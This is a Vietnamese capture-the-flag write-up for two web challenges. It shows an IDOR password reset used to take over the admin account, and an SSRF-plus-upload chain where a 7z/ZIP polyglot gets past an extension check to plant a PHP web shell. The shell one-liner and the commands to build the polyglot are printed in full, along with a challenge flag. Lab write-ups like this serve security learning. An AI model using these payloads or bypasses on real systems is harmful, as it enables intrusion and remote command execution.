










# Web 1: Leak force

## 1. Description

**Category** : Web

**Points** : 100

Challenge: ```http://web1.cscv.vn:9981/```

## 2. Phân tích


Khi truy cập vào url của challenge, giao diện login và register. Thử đăng nhập và xem xem trong web có những gì

**Giao diện**




**Proxy**



## 3. Tìm kiếm admin

Ở trên title của website, ta thấy dòng chữ `CTF IDOR`, vậy thì rất có thể endpoint `/api/profile` với biến là `id` sẽ cho phép ta có thể xem thông tin của người dùng khác mà không cần phải truy cập vào tài khoản của họ. Thử với id=1 xem



## 4. IDOR

Đã tìm được mục tiêu hẹ hẹ. Đến lúc đột nhập rồi

Tiếp theo, ta cần check thêm các tính năng khác. Chẳng hạn, ở đây có tính năng reset password



Vậy là, request nhận id sau đó sửa password của user có id đó. Và, ta đã biết rằng admin có id là 1. Vậy, sẽ ra sao nếu ta sửa biến id thành 123



Vậy là ta đã chuyển mật khẩu của admin thành công, đến lúc lụm flag rồi

## 5. Flag

Đăng nhập vào tài khoản của admin và ta có



### Flag:
`CSCV2025{7h3_Uni73d_N47i0ns_C0nv3n7i0n_4g4ins7_Cyb3rcrim3}`

# Web 2: ZC-1

## 1. Description

**Category** : Web

**Points** : 100

Challenge: ```http://web2.cscv.vn:8000/```

Please verify the challenge attachment checksum before usage. Always be mindful of what you're doing. 

Material: https://drive.google.com/file/d/1PprDuWV1u11dnH1mf_Bc70La8CpFZ7NR/view?usp=drive_link
* File name: ```public.zip```
* MD5: ```c2bb7b3b71d8b852c52bc87ec813c877```
* SHA1:  ```f6426823ffb1a7a7e3996bebd42ab2c8f77836c5```
* SHA256: ```d9e996e412dce2d07ddabd8a1aa963aa975dd1a52b48c41e885116ba47d22088```

## 2. Phân tích source

### 2.1. Cấu trúc hệ thống



Hệ thống gồm 2 dịch vụ, app1 và app2. App 1 mở port 8000 ra ngoài và có thể truy cập được bằng localhost:8000. Đồng thời, app1 nhận internal url của app2. app2 thì không mở port nào cả và là nơi chứa flag. 

=> Rõ ràng, thông qua cấu trúc trên, ta cần phải lợi dụng những phần giao tiếp giữa app1 và app2 để từ app1 truy cập vào app2 để lấy flag.

### 2.2. app1

Cấu trúc 



Trong đó khi chạy, chương trình sẽ chạy superapp với setting được thiết lập sẵn. Trong bài này, mọi người cần chú ý tới 2 setting sau (nằm trong /superapp/setting.py)

```python
STORAGE_URL = env("STORAGE_URL",default="http://127.0.0.1:8002")
ALLOW_STORAGE_FILE = (".txt",".docx",".png",".jpg",".jpeg")
```

Tiếp theo, ta cần tìm các endpoint, hãy vào file /superapp/urls.py



Trong đó, auth/token/ sẽ gen ra token khi nhập đúng user và password, còn auth/refresh-token dùng để reset token khi token bị hết hạn. Và tiếp theo, ta cần tập trung vào /gateway. Nó sẽ gọi config url được định nghĩa trong file urls.py của /gateway

File `/gateway/url.py`:
```python
gateway_router = DefaultRouter()
gateway_router.register('', GatewayViewSet, basename='gateway')

user_router = DefaultRouter()
user_router.register('', UserViewSet, basename='user')

urlpatterns = [
    path('', include(gateway_router.urls)),
    path('user/',include(user_router.urls))
    # path('auth')
]
```
Nếu ta dùng `<url>/gateway/` thì sẽ gọi GatewayViewSet, còn khi ta vào `<url>/gateway/user/` thì sẽ gọi UserViewSet. Cả 2 class này đều được định nghĩa trong `/gateway/views.py`

- Class `UserViewSet`:
```python
class UserViewSet(viewsets.ViewSet):
    
    def get_permissions(self):
        if self.action in ["create"]:
            return [AllowAny()]
        return [IsAuthenticated()]
    
    def create(self, request: Request, *args, **kwargs):
        serializer = AuthSerializer(data=request.data)
        serializer.is_valid(raise_exception=True)

        request_data = serializer.data
        try:
            with transaction.atomic():
                user = User.objects.filter(
                    username = request_data["username"]
                ).first()
                if not user:
                    user = User.objects.create(
                        **request_data
                    )
                user.set_password(request_data["password"])
                user.save()
            return Response(data=request_data["username"])
        except Exception as e:
            return Response(data=str(e))
    
    

    @action(detail=False, methods=['post'], url_path='find')
    def find(self, request: Request, *args, **kwargs):
        try:
            offset = request.query_params.get("offset", "0")
            offset = int(offset)
        except:
            offset = 0

        users = User.objects.filter(**request.data)[offset:offset+10]
        serializer = UserSerializer(users, many=True)

        return Response(serializer.data)
```

Class này cho phép ta tạo tài khoản khi truy cập vào `<url>/gateway/user/`

- Class `GatewayViewSet`:
```python
class GatewayViewSet(viewsets.ViewSet):
    
    def get_permissions(self):
        if self.action in ["health"]:
            return [AllowAny()]
        return [IsAuthenticated()]

    @action(detail=False, methods=['post'], url_path='transport')
    def transport(self, request: Request, *args, **kwargs):

        file = request.FILES["file"].file
        if not check_file(file):
            return Response(data="Invalid file")
        file.seek(0)
        msg = transport_file(str(request.user.id), file)

        return Response(data=msg)
    
    @action(detail=False, methods=['get'], url_path='health')
    def health(self, request: Request, *args, **kwargs):
        module = request.query_params.get("module", "/health.php")

        if health_check(module):
            return Response(data="OK")
        return Response(data="ERR")
```

Khi ta truy cập đến `/gateway/` gì đó, nếu đằng sau nó là `heath/` thì pass, còn ko thì check authen, yêu cầu phải đăng kí. Sau đó, định nghĩa endpoint `transport/` cho phép up file sang service app2 với ext phải được cho phép. Và endpoint `health/` nhận param module, mặc định là `/health.php`. Cho phép truy cập app2. Nếu request truy cập trả về 200 thì trả về "OK", còn lại thì trả về "ERR".

Tiếp theo, chúng ta sẽ check function check_file, transport_file và health_check, tất cả đều nằm ở utils.py

```python
def transport_file(id, file):
    try:
        res = requests.post(
            url= storage_url + "/storage.php",
            files={
                "id":(None,id),
                "file":file
            },
            allow_redirects=False,
            timeout=2
        )
        return "OK"
    except Exception as e:
        return "ERR"


def check_file(file):
    try:
        with zipfile.ZipFile(file,"r") as zf:
            namelist = zf.namelist()
            if len([f for f in namelist if not f.endswith(allow_storage_file)]) > 0:
                return False
    except:
        return False

    return True


def health_check(module):
    try:
        res = requests.get(storage_url + module, timeout=2)
        if res.status_code == 200:
            return True
        return False
    except:
        return False
```

Với health_check, sau khi nhận param module như đã nói, nó gửi request đến `http://app2<module>`. Điều này cho phép ta truy cập bất cứ endpoint nào trên service app2.

Hàm check_file sử dụng zipfile để đọc các file nằm ở trong file zip. Vậy thì rõ ràng phải nén file mới có thể bypass đoạn này. Chúng phải có ext hợp lệ lấy ra từ env của django, cụ thể là `ALLOW_STORAGE_FILE = (".txt",".docx",".png",".jpg",".jpeg")`.

Hàm transport_file gửi 1 request post đến endpoint /storage.php của app2 với các param là id và file. Trong đó, id là id hiện tại của người dùng, còn file chính là cái file nén mà mình up lên. Giờ chúng ta sẽ check endpoint /storage.php của app2 để xem có gì không

### 2.3. app2

File `storage.php`

```php
<?php

require "vendor/autoload.php";

use Archive7z\Archive7z;

if(isset($_POST['id']) && isset($_FILES['file'])){
    $storage_dir = __DIR__ . "/storage/" . $_POST['id'];

    if(!is_dir($storage_dir)){
        mkdir($storage_dir);
    }

    $obj = new Archive7z($_FILES["file"]["tmp_name"]);
    $obj->setOutputDirectory($storage_dir);
    $obj->extract();
}

?>
```

Khi truy cập vào endpoint storage.php, nhận id và file từ body sau đó giải nén file sử dụng 7zip.

### 2.4. Dự đoán cách tấn công

Ở app1, ta có thể up 1 file lên và service sẽ xài zipline để check xem có hợp lệ hay ko. Tuy nhiên ở app2 lại xài 7zip để giải nén. Vậy thì, nếu có 1 cách nào đó để có 1 file trong file zip mà zipline ko đọc ra được nhưng 7zip lại giải nén ra được thì coi như là xong, do ta có thể sử dụng check_health để sử dụng shell sau khi đã up shell lên. Những bạn nào đã từng chơi for làm bài này sẽ có lợi thế rất lớn.

Khi vào link sau: [zip_7z](https://book.jorianwoltjer.com/forensics/archives#zip-file-extracting-as-7z), ta sẽ thấy lời giải thích của họ cho việc tại sao ta có thể tấn công luôn. Cụ thể là

```
When we prefix a regular ZIP file with a 7z file, it will result in a special polyglot file that is a valid ZIP with some content, but 7z x extracts it with the .7z's content. This confusion may bypass some checks.
```

Thông qua dòng này, người ta đã gợi ý cho chúng ta cách tấn công, đó là đè 1 file 7z lên trước 1 file zip. Do cả 2 xử lý rất ngược nhau nên ta hoàn toàn có thể vượt mặt filter và up shell lên server

## 3. Exploit

Trước tiên, cài tool truepolyglot đã được dẫn link trong phần 2.4 và chạy đoạn script sau
```bash
echo dummy > file.txt
zip file.zip file.txt  

echo '<?php system($_GET["cmd"]) ?>' > shell.php
7z a shell.7z shell.php 

truepolyglot zipany --payload1file shell.7z --zipfile file.zip polyglot.zip
```

Sau khi đã thành công, hãy chạy đoạn script ở <a href="exploit/zc_1.py">exploit</a> để lấy flag

